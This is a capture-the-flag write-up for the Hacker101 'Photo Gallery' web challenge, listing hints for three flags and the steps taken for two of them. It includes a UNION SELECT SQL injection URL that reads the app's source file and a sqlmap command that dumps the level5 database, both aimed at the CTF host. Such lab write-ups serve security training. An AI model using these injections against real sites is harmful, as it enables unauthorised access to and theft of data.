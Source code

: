 # Photo Gallery

- Platform: Hacker101 <br>
- Category: Web  <br>
- Difficulty: Medium  <br>

## Flag0 
Hints:
- Consider how you might build this system yourself. What would the query for fetch look like?
- Take a few minutes to consider the state of the union
- This application runs on the uwsgi-nginx-flask-docker image

<img width="700" height="390" alt="image" src="https://github.com/user-attachments/assets/7c7c9fe6-56d1-4343-be88-48c8fade7951" /> <br><br>

```d1ae6902fc23e9b5dbf9e2b75d730fcb.ctf.hacker101.com/fetch?id=4 UNION SELECT 'main.py'``` <br><br>
<img width="1917" height="762" alt="image" src="https://github.com/user-attachments/assets/9d13568d-ffdc-4136-bbf4-48efbc5fa625" />



## Flag1 
Hints:
- I never trust a kitten I can't see
- Or a query whose results I can't see, for that matter

The hint 'query' pointed to a SQL injection vulnerability. The previous location where  ```Flag0``` was placed revealed a database named ```level5```, ```sqlmap``` was then used to enumerate that database: <br>
```sqlmap -u https://d1ae6902fc23e9b5dbf9e2b75d730fcb.ctf.hacker101.com/fetch?id=1 --dump -D level5 --threads=5``` <br><br>
<img width="938" height="283" alt="image" src="https://github.com/user-attachments/assets/52e35e44-cf5c-4599-8b85-ba0a96c56971" /> <br><br>

The flag was revealed after enumeration. <br>
<img width="760" height="282" alt="image" src="https://github.com/user-attachments/assets/5972a0a7-9667-4b22-98c8-7e43cae025c1" /> <br><br>
<img width="831" height="197" alt="image" src="https://github.com/user-attachments/assets/f8c35743-147e-4683-a52e-b93a03b7df69" /> <br>

Remediation: <br>

<br><br>

## Flag2 
Hints:
- That method of finding the size of an album seems suspicious
- Stacked queries rarely work. But when they do, make absolutely sure that you're committed
- Be aware of your environment
